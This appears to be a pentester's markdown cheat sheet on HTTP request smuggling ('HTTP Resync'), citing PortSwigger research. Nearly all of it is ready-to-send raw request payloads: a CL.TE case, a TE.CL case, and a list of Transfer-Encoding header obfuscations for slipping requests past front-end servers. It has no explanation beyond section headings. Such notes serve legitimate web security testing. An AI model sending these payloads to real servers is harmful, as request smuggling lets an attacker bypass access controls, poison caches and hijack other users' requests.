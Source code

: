 ```yaml
---
title: HTTP Resync
author: i4
date: M11-02-2022
---
```

# HTTP Resync
[Portswigger](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)

## Frontend doesn't support chunked

```
POST / HTTP/1.1
Host: example.com
Content-Length: 6
Transfer-Encoding: chunked

0

GPOST / HTTP/1.1
Host: example.com
```

## Frontend support chunked but backend doesn't

```
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

6
PREFIX
0

Post / HTTP/1.1
Host: example.com
```

## Different Transfer-Encoding masking
`Transfer-Encoding: xchunked`
`Transfer-Encoding: chunked`
`Transfer-Encoding: \tchunked`
`Transfer-Encoding: chunked`
`Transfer-Encoding: chunked`
`X: X[\n]Transfer-Encoding: chunked`
`Transfer-Encoding\n: chunked`
